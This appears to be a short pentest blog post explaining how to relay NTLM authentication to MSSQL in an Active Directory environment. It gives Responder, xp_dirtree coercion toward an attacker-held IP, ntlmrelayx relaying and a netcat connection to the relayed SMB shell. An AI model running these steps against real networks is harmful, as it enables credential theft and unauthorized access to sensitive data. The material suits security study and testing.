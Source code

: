 ```yaml
---
title:  NTLM Relay - over MSSQL
date: 2025-05-19 06:00:00 +/-TTTT
categories: [NTLM-Relay]
tags: [NTLM Relay - over MSSQL]     # TAG names should always be lowercase
image : /assets/images/ntlmmssql.gif
---
```

## Entry
NTLM relay is a classic attack technique that allows an attacker to impersonate users by relaying their NTLM authentication to another service. When services like MSSQL are misconfigured and accept NTLM authentication without signing, they become ideal targets. In this post, we'll explore how to relay NTLM credentials to an MSSQL server to gain code execution or escalate privileges in an Active Directory environment.

## Enumerate
>Before start we have to sure if we have **relay authentication**
{: .prompt-tip}

Coomands to execute:
```sh
sudo responder -I tun0
xp_dirtree \\<ip>\<anything>
```
![alt text](../assets/images/ntlmmsql1.png)

We can ping but if its not crackable what we can do? thats the problem and main topic of this blog.

![alt text](../assets/images/ntlmmsql2.png)

Okey nice lets go ntlm_relay stuff.

## Attack

To abuse this protocol we will use **ntlmrelayx**, **mssqclient** and **nc** for interactive shell.

| Tool             | Purpose                                                            |
| ---------------- | ------------------------------------------------------------------ |
| `ntlmrelayx.py`  | Relays captured NTLM authentication to target services like MSSQL. |
| `mssqlclient.py` | Connects to MSSQL servers to run SQL commands and enable features. |
| `nc` (Netcat)    | Creates a interactive shell     |

Lets start by running **ntlmrelayx** with `-smb2support` option. targeting to mssql service of hosts

Command to execute:
```sh
ntlmrelayx.py -smb2support -tf hosts.txt -i
```

And now we can relay with mssql

Command to execute:
```sh
xp_dirtree \\<ip>\relay
```
![alt text](../assets/images/ntlmmsql3.png)

>It should start interactive shell otherwise u are doing something wrong. (Started interactive SMB client shell via TCP on 127.0.0.1:11000)
{: .prompt-tip}

now we can use `nc 127.0.0.1:11000` for connect interactive smb client.

![alt text](../assets/images/ntlmmsql4.png)

Now we can access sensitive datas.
